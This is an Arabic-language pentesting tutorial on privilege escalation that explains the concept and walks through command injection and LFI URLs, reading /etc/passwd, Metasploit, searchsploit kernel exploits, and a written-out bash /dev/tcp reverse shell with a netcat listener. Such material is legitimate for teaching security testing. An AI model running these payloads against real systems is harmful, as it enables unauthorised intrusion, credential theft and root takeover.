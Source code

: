 # **1. تعريف Privilege Escalation (تصعيد الصلاحيات)**

## **الشرح العميق:**
ال Privilege Escalation (تصعيد الصلاحيات) هو عملية يحاول فيها المهاجم أو المخترق ياخد صلاحيات أعلى من اللي عنده على نظام أو تطبيق. يعني لو دخلت على جهاز كمستخدم عادي (limited user)، بتحاول توصل لصلاحيات المسؤول (Administrator أو root) عشان تقدر تتحكم في كل حاجة. فيه نوعين رئيسيين:

1. **Vertical Privilege Escalation:** من مستخدم عادي لمستخدم بصلاحيات عالية (زي root أو admin).
2. **Horizontal Privilege Escalation:** من مستخدم عادي لمستخدم عادي تاني لكن بصلاحيات مختلفة (زي الوصول لحساب مستخدم تاني).


في سياق الويب، ده بيحصل لما تطبيق ويب (زي موقع) فيه ثغرة تسمح للمستخدم العادي يعدّل أو يتحكم في حاجات المفروض تكون للأدمن بس، زي تغيير بيانات، تشغيل أوامر، أو الوصول لملفات حساسة.

## **الأدوات والأوامر العملية:**

### 1. **فحص المستخدم الحالي:**

   - لو على لينكس:   `id`
   
     - مثال نتيجة: `uid=1000(user) gid=1000(user) groups=1000(user)`
     - لو root: `uid=0(root)`.


   - لو على ويندوز:  `whoami`

     - مثال: `user-pc\user` (مستخدم عادي) أو `nt authority\system` (أعلى صلاحية).

### 2. **محاولة تصعيد يدوي بسيط:**

   - على لينكس: `sudo -l`

     - بيوريك الأوامر اللي ممكن تشغلها كـ root لو كان عندك إذن.


   - مثال: لو لقيت `(root) NOPASSWD: /bin/bash`، شغل `sudo /bin/bash` وهتبقى root.

### 3. **في الويب (مثال ثغرة):**

   - لو موقع فيه ثغرة Parameter Tampering:
     - افترض رابط زي: `http://example.com/profile?user_id=123`
     - عدّل الـ ID لـ `user_id=1` (غالبًا Admin) وشوف لو بيفتح حساب الأدمن.

## **خلاصة للطفل:**
"زي لما تكون ضيف في بيت وتقدر تدخل المطبخ بس، لكن تلاقي طريقة تدخل بيها أوضة صاحب البيت وتتحكم في كل حاجة! تصعيد الصلاحيات يعني تاخد مفتاح أكبر من اللي معاك."

---

# **2. تأثير Privilege Escalation على أمان الويب**

## **الشرح العميق:**
لما يحصل تصعيد صلاحيات في تطبيق ويب، التأثير بيكون خطير جدًا لأن المهاجم بيقدر يعمل حاجات زي:

- **سرقة بيانات حساسة:** زي بيانات المستخدمين أو كلمات السر.
- **تعديل الموقع:** يغير محتوى الصفحات أو يضيف أكواد ضارة.
- **التحكم في السيرفر:** لو وصل لصلاحيات root/admin على السيرفر بتاع الموقع، يقدر يشغل أوامر أو يدمر النظام كله.
- **الهجمات الممتدة:** يستخدم الموقع كقاعدة لمهاجمة أنظمة تانية.

الثغرات اللي بتؤدي لتصعيد الصلاحيات في الويب بتكون زي ضعف التحقق من الهوية (Broken Authentication)، سوء الإعدادات (Misconfiguration)، أو حقن الأوامر (Command Injection).

## **الأدوات والأوامر العملية:**

### 1. **Command Injection في الويب:**
   - لو موقع بياخد إدخال منك وينفذه:
     - رابط: `http://example.com/ping?ip=127.0.0.1`
     - جرب: `http://example.com/ping?ip=127.0.0.1; whoami`
     - لو رجعلك اسم المستخدم (زي www-data)، يبقى فيه ثغرة.

### 2. **Local File Inclusion (LFI) لتصعيد:**
   - رابط: `http://example.com?page=about.php`
   - جرب: `http://example.com?page=/etc/passwd`
     - لو ظهر ملف passwd، حاول تصعيد بـ:
     - `http://example.com?page=/proc/self/environ` (تشوف بيئة النظام).



### 3. **Metasploit لاستغلال ثغرة:**
   - لو لقيت ثغرة في خدمة ويب:
     - `msfconsole`
     - `use exploit/multi/http/<module_name>`
     - `set RHOST <IP>`
     - `exploit`
   - لو نجحت، هتاخد shell وتقدر تصعد صلاحيات.

## **خلاصة للطفل:**
"لما تتحكم في موقع، زي لما تكون لعبت لعبة واخدت كل القوة! المهاجم بيقدر يسرق حاجات، يخرب البيت، أو يتحكم في كل حاجة لو لقى الباب مفتوح."

---

# **3. ليه مهم نفهم ده وإزاي نستغله؟**

- **الهدف:** لو اختبرت موقع (كـ Pentester)، لازم تعرف الثغرات اللي ممكن تؤدي لتصعيد وتستغلها عشان تثبت خطورتها.
- **مثال عملي:** لو لقيت Command Injection، ممكن تشغل أوامر زي `whoami` أو `id`، وبعدها تبحث عن طريقة تصير root.
- **أدوات إضافية:**
  - `searchsploit`:
    - `searchsploit php 7.2 command injection`
    - بيطلعلك ثغرات مرتبطة بالإصدار.

## **خلاصة للطفل:**
"لما تعرف إزاي تدخل وتتحكم، بتبقى زي بطل خارق بيقدر يفتح كل الأبواب ويثبت إن البيت مش أمان!"

---

# **خطوات عملية للاستغلال في Pentesting**

## **الخطوة 1: فحص الموقع**
- استخدم Nmap لفحص السيرفر:
  - `nmap -sV 192.168.1.10`
- افترض النتيجة:
  - Port 80: Apache 2.4.29
  - Port 22: OpenSSH 5.3

## **الخطوة 2: اختبار ثغرات الويب**
- جرب Command Injection:
  - `http://192.168.1.10/ping?ip=127.0.0.1; id`
  - لو رجعلك `uid=33(www-data)`، يبقى فيه ثغرة.
- جرب LFI:
  - `http://192.168.1.10?page=/etc/passwd`
  - لو ظهر الملف، ابحث عن ملفات زي `/var/www/html/config.php` لكلمات سر.

## **الخطوة 3: استغلال الثغرة**
- لو لقيت Command Injection:
  - أضف أمر زي: `; /bin/bash -i >& /dev/tcp/<your_IP>/4444 0>&1`
  - شغل Netcat على جهازك: `nc -lvnp 4444`
  - لو نجح، هتاخد shell.

## **الخطوة 4: تصعيد الصلاحيات**
- على الـ Shell:
  - `id` (تشوف مين أنت، مثلاً www-data).
  - `sudo -l` (تشوف لو فيه أوامر بصلاحيات root).
  - لو لقيت مثلاً `sudo /bin/bash`، شغله وهتبقى root.
- لو مفيش sudo:
  - ابحث عن Kernel Exploit:
    - `uname -r` (تعرف إصدار النواة، زي 2.6.32).
    - `searchsploit linux kernel 2.6.32`
    - نزل السكربت وشغله على السيرفر.

## **الخطوة 5: توثيق وتنظيف**
- سجل كل خطوة (لتقرير الـ Pentest).
- لو خلّصت، امسح أي أثر (زي السكربتات) لو ده جزء من الاتفاق.

## **خلاصة للطفل:**
"زي لما تلعب لعبة مغامرات: تدور على الثغرة زي كنز، تستخدمها عشان تفتح الباب الكبير، وتصير الملك بتاع الموقع!"

---

# **الخلاصة النهائية:**
Privilege Escalation هو مفتاح التحكم الكامل في نظام أو موقع. في الويب، بتدور على ثغرات زي Command Injection أو LFI، وبعدين تستغلها عشان تاخد shell وتصعد لصلاحيات أعلى. بالأدوات زي Nmap، Netcat، وMetasploit، تقدر تكتشف وتستغل كل نقطة ضعف بسهولة لو خططت صح!